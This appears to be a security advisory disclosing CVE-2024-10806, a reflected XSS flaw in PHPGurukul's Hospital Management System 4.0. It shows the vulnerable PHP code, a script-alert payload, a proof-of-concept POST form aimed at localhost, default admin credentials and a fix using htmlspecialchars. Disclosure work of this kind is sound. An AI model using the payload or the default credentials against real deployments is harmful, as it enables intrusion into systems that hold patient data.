# [XSS vulnerability] found in Hospital Management System (HMS) 4.0 - (betweendates-detailsreports.php) - CVE-2024-10806

Affected Project: **Hospital Management System (HMS)**

Exploit Author: Dimitris Chatzidimitris

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/hospital-management-system-in-php/)

Version: 4.0

Updated: 16 May 2024

Vulnerable path/file: `hms/admin/betweendates-detailsreports.php`

Injection parameter: `fromdate` , `todate`

<br />

Size: 16.7 MB

Sha256: 705263fd0533fde4c8c4d332bf943ea66de98645262cc896f415c897e824455a

<br />

## Vulnerability Description:
The parameters $fdate and $tdate are vulnerable to XSS because they accept user input from the $_POST array and output it directly to the page without any form of sanitization or encoding. This means that if a user submits HTML or JavaScript code within these fields, it will be rendered directly in the HTML output, executing any embedded JavaScript.
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
$fdate=$_POST['fromdate'];
$tdate=$_POST['todate'];

?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate?> to <?php echo $tdate?></h5>
```

<br />

## Injection Payload Tested:

We need to set the `fromdate` and `todate` to:
```
<script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a `POST` request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `betweendates-detailsreports.php` looks like:

<br />

![betweendates-detailsreports.php](https://i.postimg.cc/HnXLvmhw/1.png)

<br />

As it is a `POST` request we need to use a file `test.html` with the following content to be able to trigger the XSS popup:

```
<form method="POST" action="http://localhost/hospital/hms/admin/betweendates-detailsreports.php">
    <input type="text" name="fromdate" value="<script>alert('XSS')</script>">
    <input type="text" name="todate" value="<script>alert('XSS')</script>">
    <input type="submit" value="Submit">
 </form>
```

<br />

Then we have to open it on the browser:

For example: `file:///C:/Users/Testpc/Desktop/test.html/test.html`

<br />

![file](https://i.postimg.cc/T2gY6Rtm/2.png)

<br />

Before submitting the POST request we must be logged in:

Default login info:

Url: `http://localhost/hospital/hms/admin/index.php`

Username: `admin`
Password: `Test@12345`

After submitting the payload using POST with the vulnerable parameters `fromdate` and `todate` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

![xss](https://i.postimg.cc/B6fkcG29/3.png)

then we need to click `OK` so the next POST request executed and XSS triggered.

![xss2](https://i.postimg.cc/5N2GmgQ0/4.png)


## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
$fdate = htmlspecialchars($_POST['fromdate'], ENT_QUOTES, 'UTF-8');
$tdate = htmlspecialchars($_POST['todate'], ENT_QUOTES, 'UTF-8');
?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate ?> to <?php echo $tdate ?></h5>

```

<br />

> One Click Can Change Everything: Be Secure.
